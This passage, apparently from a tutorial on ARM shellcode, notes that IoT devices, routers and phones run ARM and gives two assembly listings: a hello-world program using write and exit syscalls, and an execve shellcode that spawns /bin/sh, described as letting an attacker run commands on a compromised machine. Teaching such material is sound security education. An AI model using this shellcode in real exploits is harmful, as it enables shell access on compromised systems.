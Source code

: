 - Many **IoT devices** and **routers** use ARM processors, making them prime targets for exploitation.
- ARM processors are also commonly found in **mobile phones**, especially those running Android, and even **smart TVs** and **automotive systems**.


#### **Hello World Shellcode**

For ARM architecture, we can use the `write` system call to print the string to the console and then use the `exit` system call to terminate the program.

```s
.section .text
.global _start
_start:
    // Step 1: sys_write (write message to stdout)
    mov r0, #1                // File descriptor 1 (stdout)
    ldr r1, =msg              // Address of the string to print
    ldr r2, =len              // Load the length of the message into r2
    mov r7, #4                // System call number for sys_write (4)
    swi 0                     // Trigger the system call

    // Step 2: sys_exit (exit the program)
    mov R0, #0                // Exit status (0 for success)
    mov R7, #1                // System call number for sys_exit (1)
    swi 0                     // Trigger the system call

.section .data
msg:
	.asciz "Hello, World!"    // Define the message Null Terminated string
len = . - msg                  // Calculate the length of the string
```

#### **Execve Shellcode (Execute Command)**

An **execve shellcode** allows the attacker to execute arbitrary commands on the compromised machine. The shellcode mimics the system call `execve`, which is used to launch processes in Unix-like systems.

- **How It Works**: The shellcode places the path to an executable (such as `/bin/sh` for a shell) into memory and invokes the `execve` system call to run it.
- **Use Case**: Useful for attackers who want to run specific commands or execute a shell from within an exploited program.


```s title:execve.s
.section .text
.global _start

_start:
    // Prepare arguments for execve
    ldr r0, =shell    // Pointer to the string "/bin/sh"
    mov r1, #0        // argv (NULL)
    mov r2, #0        // envp (NULL)
    mov r7, #11       // syscall number for execve
    svc #0            // make the syscall

.section .data
shell:
    .asciz "/bin/sh"  // Null-terminated string for execve

```
